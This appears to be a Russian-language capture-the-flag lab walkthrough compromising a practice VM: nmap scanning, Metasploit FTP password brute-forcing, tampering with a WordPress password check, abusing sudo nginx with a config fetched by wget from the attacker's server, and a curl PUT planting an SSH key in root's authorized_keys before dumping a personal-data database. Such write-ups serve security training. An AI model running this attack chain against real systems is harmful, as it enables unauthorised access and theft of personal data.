Целевая машина расположена в сети 192.168.122.0/24 и имеет статический IP-адрес 192.168.122.205/24.

Атака производится с машины на Kali Linux следующей версии:



1\. Сканируем порты и узнаем поднятые на них сервисы:

Используем команду sudo nmap -sS -vV 192.168.122.205



2\. Брутфорс FTP

Запускаем метасплойт:

msfconsole



Используем шаблон для брутфорса логина фтп:

use auxiliary/scanner/ftp/ftp\_login	



Просматриваем неустановленные обязательные параметры:

options



Указываем IP-адрес атакуемого сервера:

set RHOSTS 192.168.122.205



Устанавливаем имя пользователя, с которым будем брутфорсить пароль:

set USERNAME IvanPopov\_IT



При помощи wget скачиваем список самых популярных паролей с github в .txt файле:

wget <https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/2023-200_most_used_passwords.txt>



После чего применяем его командой:

set PASS\_FILE /path/to/passwords.txt



Запускаем брутфорс с помощью команды:

run

После успешного подбора пароля получаем следующий вывод:



Теперь мы имеем доступ к файлам пользователя IvanPopov\_IT на ftp-сервере. 

Производим успешный вход на ftp при помощи любого графического клиента ftp, в нашем случае FileZilla:



После успешного входа в директории FilesForMyFirstJob наблюдаем два файла, user.php и readme\_ftp.txt:



Прочитав readme\_ftp.txt, узнаем, что нужно найти строки, касающиеся проверки паролей:

Открываем файл user.php, находим нужные строки:



Удаляем восклицательный знак, сохраняем файл, после чего получаем возможность входить в WordPress под любым существующим пользователем с любым паролем. В нашем случае будет использован логин admin как самый распространенный.



Успешно входим в консоль WordPress: 

Далее переходим во вкладку “Медиафайлы”:



Здесь наблюдаем поломанную картинку, о которой говорится в readme\_ftp.txt, она изменена при помощи стеганографии, а именно простого HEX-редактирования заголовка IHDR. Чтобы восстановить изображение, мы будем использовать скрипт, который определит реальную высоту изображения и восстановит его. 

Один из таких скриптов можно скачать с github:

git clone <https://github.com/DianaNeumann/IHDR-Solver>

Запускаем скрипт, указывая изображение, которое следует восстановить:

python IHDR-Solver/ihdr-stego.py fix\_me\_pls.png



Получаем следующее восстановленное изображение с ключом и подсказкой к следующему действию:



Теперь переходим во вкладку “Инструменты”, выбираем пункт “WPTerm” и получаем доступ к эмулятору терминала из WordPress под пользователем www-data. 



Далее нам необходимо проверить, можем ли мы использовать какие-либо команды из-под root без пароля, для этого пропишем:
sudo -l

И увидим следующее:



Теперь нам известно, что есть возможность запускать nginx от root без пароля. Далее необходимо создать файл nginx.conf и привести его к следующему виду:



Сохраняем файл и переходим к следующему действию. Теперь нам нужно запустить веб-сервер python. В нашем случае будет использоваться стандартный порт 8000:

python3 -m http.server



Теперь снова открываем WPTerm и качаем созданный ранее конфигурационный файл nginx в директорию /tmp с помощью wget с python-сервера:

cd /tmp

wget 192.168.122.128:8000/nginx.conf



После проделанных действий запускаем nginx со скачанным конфигурационным файлом:

sudo /usr/sbin/nginx -c /tmp/nginx.conf 



Выходим из WPTerm и генерируем ssh-ключи:

ssh-keygen



Выводим и копируем созданный публичный ключ:

cat ~/.ssh/id\_ed25519.pub



С помощью curl делаем PUT-запрос, чтобы передать ключ на сервер в папку authorized\_keys:

curl -X PUT http://192.168.122.205:9899/root/.ssh/authorized\_keys --data " ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEJHHw+Ys12uGzQRm/rd8iuO3gGuJIWN3OZhocEVyRM9 kk@kk"



Благодаря этим действиям мы можем подключиться через SSH под пользователем root без пароля:

ssh <root@192.168.0.103>



Мы получили полный доступ к серверу. Посмотрим флаг, который лежит в домашней директории.



Теперь, как вариант, можем попытаться получить информацию из баз данных. Входим в mysql под пользователем root c использованием пароля, на строку “Enter password:” не обращаем внимания, жмем Enter:

mysql -u root -p



Далее необходимо проверить список доступных баз данных:

show databases;



Наблюдаем интересную для нас БД “personal\_data\_users”, которая скорее всего содержит персональные данные. Выбираем ее:

use personal\_data\_users;



Смотрим, какие таблицы находятся в данной БД:



Смотрим содержимое:



Таким образом мы нашли зашифрованный ключ, который теперь необходимо будет расшифровать. Для этого воспользуемся таблицей Виженера. Есть несколько вариантов: использование сайта, либо расшифровка вручную с использованием таблицы. Если используется сайт, необходимо просто вставить закрытый текст и ключ, данный в прошлом флаге. Так мы получим долгожданный флаг. 



Если пойти по интересному пути, то придется немного понять алгоритм работы шифра Виженера. Дана таблица, буквы сверху – используются для открытого текста, буквы слева – для ключа. Если открытый текст состоит из 10 символов, а ключ, например, из 4 – то необходимо повторять ключ до 10 символов. Смотрим первый символ ключа в колонне слева – двигаемся вправо, пока не найдем первый символ закрытого текста. Нашли – двигаемся вверх, получаем первую букву открытого текста. Символы, которые не входят в алфавит – не кодируются. Так с каждой буквой.



В итоге, независимо от используемого метода, мы все равно получим расшифрованный флаг:

flag{ucompletedthetask}
